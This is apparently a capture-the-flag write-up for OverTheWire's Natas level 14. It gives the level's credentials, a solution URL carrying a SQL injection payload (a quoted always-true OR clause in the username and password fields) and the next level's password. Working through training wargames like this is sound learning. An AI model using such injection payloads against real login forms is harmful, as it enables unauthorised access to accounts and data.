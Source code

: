 ### Natas Level 14

[natas14](http://natas14.natas.labs.overthewire.org)

**Username**: *natas14*

**Password**: *Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1*

### Solution

* SQLi
* Visit url http://natas14.natas.labs.overthewire.org/index.php?username=test%22%20or%20%221%22=%221&password=test%22%20or%20%221%22=%221&debug

#### Credentials for Level 14

**Username**: *natas15*

**Password**: *AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J*
